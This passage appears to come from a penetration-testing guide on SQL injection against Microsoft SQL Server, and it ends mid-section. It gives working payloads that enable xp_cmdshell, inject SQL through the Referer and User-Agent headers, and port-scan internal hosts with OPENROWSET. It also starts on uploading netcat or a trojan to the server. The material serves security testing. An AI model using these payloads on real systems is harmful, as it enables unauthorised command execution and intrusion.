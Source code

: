This code, written by Antonin Foller (see links at the bottom of the page), creates a new `xp_cmdshell` using `sp_oacreate`, `sp_oamethod` and `sp_oadestroy` (as long as they haven’t been disabled too, of course). Before using it, we need to delete the first `xp_cmdshell` we created (even if it was not working), otherwise the two declarations will collide.

On SQL Server 2005, `xp_cmdshell` can be enabled by injecting the following code instead:

```
master..sp_configure 'show advanced options',1
reconfigure
master..sp_configure 'xp_cmdshell',1
reconfigure
```

### Example 6: Referer / User-Agent

The `REFERER` header set to:

`Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--`

Allows the execution of arbitrary SQL Code. The same happens with the User-Agent header set to:

`User-Agent: user_agent', 'some_ip'); [SQL CODE]--`

### Example 7: SQL Server as a Port Scanner

In SQL Server, one of the most useful (at least for the penetration tester) commands is OPENROWSET, which is used to run a query on another DB Server and retrieve the results. The penetration tester can use this command to scan ports of other machines in the target network, injecting the following query:

`select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--`

This query will attempt a connection to the address x.y.w.z on port p. If the port is closed, the following message will be returned:

`SQL Server does not exist or access denied`

On the other hand, if the port is open, one of the following errors will be returned:

`General network error. Check your network documentation`

`OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.`

Of course, the error message is not always available. If that is the case, we can use the response time to understand what is going on: with a closed port, the timeout (5 seconds in this example) will be consumed, whereas an open port will return the result right away.

Keep in mind that OPENROWSET is enabled by default in SQL Server 2000 but disabled in SQL Server 2005.

### Example 8: Upload of Executables

Once we can use `xp_cmdshell` (either the native one or a custom one), we can easily upload executables on the target DB Server. A very common choice is `netcat.exe`, but any trojan will be useful here. If the target is allowed to start FTP connections to the tester’s machine, all that is needed is to inject the following queries:
